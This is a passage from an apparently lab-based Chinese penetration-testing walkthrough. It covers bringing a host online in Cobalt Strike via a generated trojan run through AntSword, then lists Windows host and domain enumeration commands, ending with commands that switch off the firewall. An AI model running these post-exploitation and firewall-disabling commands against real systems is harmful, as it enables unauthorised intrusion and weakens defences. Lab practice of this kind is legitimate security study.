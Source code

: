 生成木马

![image-20220623093431630](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230934673.png)

![image-20220623093239022](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230932049.png)

使用蚁剑执行生成的命令，此时CS端同样会上线主机

#### 4、输入shell进入交互模式

> 在Xshell中修改编码格式为CBK，解决中文乱码问题

![image-20220615145940462](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151459493.png)

#### 6 收集主机 系统信息

##### 6.1 主机 和 域环境

```java
shell ipconfig /all
shell set logon		//域环境显示登陆的DC非域环境显示本机名称
```

> 发现内网ip地址192.168.52.143和域god.org

##### 6.2 域控 和 域用户

```shell
ipconfig /all	#判断是否有域存在，查看网关IP地址、DNS的IP地址、域名、本机是否和DNS服务器处于同一网段
```

```shell
whoami
systeminfo
nslookup god.org    # 解析域名IP地址
net config workstation  #查询当前登陆域及登陆用户信息
net view /domain   #查看域
net time /domain  # 获取域服务器的时间
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"  # 英文操作系统
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"   # 中文操作系统
echo %PROCESSOR_ARCHITECTURE%    # 查看系统系统结构
wmic service list brief   # 查询本机服务信息
tasklist                   #查询进程
wmic process list brief   #使用wmic查询进程
wmic  startup get command,caption   #查看启动进程
schtasks /query /fo list /v      # 查看计划任务
net statistics workstation     # 查看主机开机时间
netstat -ano    #查询端口列表
wmic qfe get caption,description,hotfixid,installedon   #查询本机安装的补丁
net user    #查看本机用户列表
net localgroup administrators  # 获取本地管理员
query user || qwinsta   # 获取在线用户
net session    # 列出计算机所连接的客户端之间的会话
net share   # 查看本机共享列表
wmic share get name,path,status #使用wmic 查询本机共享列表
netsh firewall set opmode disable   # windows server 2003 之前
netsh advfirewall set allprofiles state off  # windows server 2003 之后
```
